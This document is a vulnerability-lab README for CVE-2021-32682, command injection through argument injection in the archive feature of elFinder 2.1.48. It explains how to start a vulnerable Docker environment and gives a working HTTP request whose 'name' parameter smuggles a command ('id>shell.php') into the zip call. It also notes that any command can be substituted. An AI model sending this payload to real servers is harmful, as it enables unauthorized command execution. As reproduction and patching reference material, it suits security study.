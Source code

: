 # elFinder ZIP Arguments Injection Leads to Commands Injection (CVE-2021-32682)

[中文版本(Chinese version)](README.zh-cn.md)

elFinder is an open-source file manager for web, written in JavaScript using jQuery UI.

There is a arguments injection vulnerability found in the elFinder 2.1.48 and before. This vulnerability can allow an attacker to execute arbitrary commands on the server hosting the elFinder PHP connector, even with minimal configuration. The issues were patched in version 2.1.59. As a workaround, ensure the connector is not exposed without authentication.

References:

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## Vulnerability Environment

Execute following command to start a elFinder 2.1.48:

```
docker compose up -d
```

After the server is started, you can see the main page of elFinder at `http://your-ip:8080`.

## Vulnerability Reproduce

Firstly, you should prepare 2 files for this vulnerability flow.

Create a plain text file named `1.txt`:

![](1.png)

Archive this file in the right-click menu to ZIP format, and modify this archived file name to `2.zip`:

![](2.png)

`1.txt` and `2.zip` are ready here:

![](3.png)

Then, send the following request to execute arbitrary commands:

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

In this request, you can see 3 important parameters:

- `name`, its value is equal to `-TvTT=id>shell.php # a.zip`, you can modify the `id>shell.php` to arbitrary commands
- `targets[0]`, its value is equal to `l1_MS50eHQ`. `l1` means the first storage volume, `MS50eHQ` is the base64 encoded string of `1.txt`
- `targets[1]`, its value is equal to `l1_Mi56aXA`. `l1` means the first storage volume, `Mi56aXA` is the base64 encoded string of `2.zip`

Although this request responeds to an error message, our command has been executed and `shell.php` has been written to `http://your-ip:8080/files/shell.php`:

![](4.png)
